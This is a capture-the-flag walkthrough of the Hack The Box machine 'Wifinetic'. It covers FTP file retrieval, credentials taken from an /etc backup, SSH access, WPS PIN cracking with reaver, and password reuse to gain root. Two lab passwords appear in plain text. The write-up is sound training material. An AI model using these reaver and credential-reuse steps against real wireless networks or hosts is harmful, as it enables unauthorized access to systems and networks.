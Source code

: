 ```yaml
---
date: 2025-01-20
categories: [CTF, HTB]
title: "HTB - Wifinetic"
tags: ['nmap', 'privilege escalation', 'rce','wireless', 'wifi', 'wps', 'reaver']

description: "Wifinetic - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Wifinetic

NMAP

![image1](../resources/ce8446500e1f4547acd22cf85aed2fbd.png)


![image2](../resources/6ff6375347cd4e4682ac2f9f0dc49315.png)

- Get all the files:
```bash
mget *

```

![image3](../resources/5d8968e1beaf47e28211651c4a95d07a.png)

- Extract the .tar file - We get the /etc directory:

From the files we get these - which provides us a username and password to login


![image4](../resources/51ed7e9897e140a8940d0565de9c2024.png)


![image5](../resources/a4b8698506c74fa69f5c7e38cfe70af5.png)

```bash
ssh netadmin@10.129.229.90

```
**VeRyUniUqWiFIPasswrd1!**


![image6](../resources/0c646704891147a5aa4bd3917c184df9.png)


![image7](../resources/569a7bee5ff5431a9eaa9c2f60ee511e.png)

- Doing enumeration - we can see reaver is installed and has the cap_net_raw+ep capability set:
```bash
getcap -r / 2>/dev/null

```

![image8](../resources/0819691ac03641d486ddcd855914f838.png)


![image9](../resources/0ca1525dd7e64678a8279c1815dd1e8f.png)

```bash
iwconfig

```

![image10](../resources/3cf2308dcf1e45a79738409937b622ee.png)

- Wireless settings are typically stored in /etc/wpa_supplicant.conf, which is present, but netadmin can’t read it

![image11](../resources/7c15bd8a3ee64381a4327eb3e9e35e64.png)

```bash
iw dev

```

![image12](../resources/2227093ffb7646ecbff81424bc40888f.png)

- We can run reaver against the BSSID using mon0:
[https://outpost24.com/blog/wps-cracking-with-reaver/](https://outpost24.com/blog/wps-cracking-with-reaver/)

```bash
reaver -i mon0 -c 1 -b 02:00:00:00:00:00 -vv

```

![image13](../resources/c074960bf8cf49eab143ed5842afcb63.png)

- Got a password:
**WhatIsRealAnDWhAtIsNot51121!**

- Now we can try and see if that password is used for the root account:
```bash
ssh root@192.168.1.1

```

![image14](../resources/2b9deebae1eb404db05df91e5522e823.png)


![image15](../resources/30928906434842d2a768cedd09327c5d.png)

```bash
cat root.txt

```
- Or simply 
```bash
su -
```

![image16](../resources/620d647e240d40bc999b4ff959ccb6a6.png)